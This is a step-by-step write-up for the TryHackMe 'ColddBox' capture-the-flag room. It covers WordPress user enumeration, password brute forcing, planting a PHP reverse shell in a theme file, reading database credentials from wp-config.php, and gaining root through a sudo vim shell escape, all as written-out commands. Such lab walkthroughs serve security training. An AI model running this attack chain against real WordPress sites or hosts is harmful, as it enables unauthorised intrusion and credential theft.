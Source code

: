 
- **Room Link**: [TryHackMe ColddBox](https://tryhackme.com/r/room/colddboxeasy)
## 1. Connect to the VPN
To begin, connect to the TryHackMe VPN:
```
sudo openvpn vpnfile.ovpn
```

## 2. Nmap Scan
Run an initial Nmap scan to discover open ports and services:
```
nmap -sC -sV <TARGET_IP>
```
The site appears to be running WordPress based on the scan results.

## 3. Username Enumeration with WPScan
Enumerate WordPress usernames using WPScan:
```
wpscan --url <TARGET_IP> --enumerate u
```
From this, we discover some usernames, including the key one: `c0ldd`.

## 4. Password Brute Force with WPScan
Next, brute force the password for the `c0ldd` user using a common wordlist (`rockyou.txt`):
```
wpscan --url <TARGET_IP> --usernames c0ldd --passwords /usr/share/dirb/wordlists/rockyou.txt
```
This reveals the login credentials:
- **Username**: `c0ldd`
- **Password**: `9876543210`
## 5. Logging into WordPress Admin
Using the discovered credentials, log in to the WordPress admin panel at:
```
http://<TARGET_IP>/wp-admin
```

## 6. Inserting a Reverse Shell via WordPress
Navigate to `Appearance > Editor > header.php` and add a reverse shell payload. I used the [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell). Customize it with your IP and port.

Run a listener using Netcat:
```
nc -nlvp 1337
```
Afterward, visit the site to trigger the reverse shell.

## 7. Spawn a Stable Shell
Once you have a reverse shell, stabilize it using Python:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then, press `Ctrl-Z` to background the shell and run the following to set the terminal properly:
```
stty raw -echo
fg
```

## 8. Retrieve Credentials from wp-config.php
While exploring the file system, check the `wp-config.php` file. It contains the database credentials:
```
define('DB_USER', 'c0ldd'); 
define('DB_PASSWORD', 'cybersecurity');
```

## 9. Gain User Access
Using the credentials found, switch to the `c0ldd` user:
```
su c0ldd
```
Now, you can retrieve the first flag:
```
cat /home/c0ldd/user.txt
```

## 10. Privilege Escalation to Root
To find ways to escalate privileges, check the `sudo` permissions:
```
sudo -l
```
You will see the following commands can be run as root:
- `/usr/bin/vim`
- `/bin/chmod`
- `/usr/bin/ftp`
Based on the [GTFOBins](https://gtfobins.github.io/) exploit suggestions, use `vim` to escalate:
```
sudo vim -c ':!/bin/sh'
```

## 11. Capture the Root Flag

Finally, with root access, retrieve the root flag:
```
cat /root/root.txt
```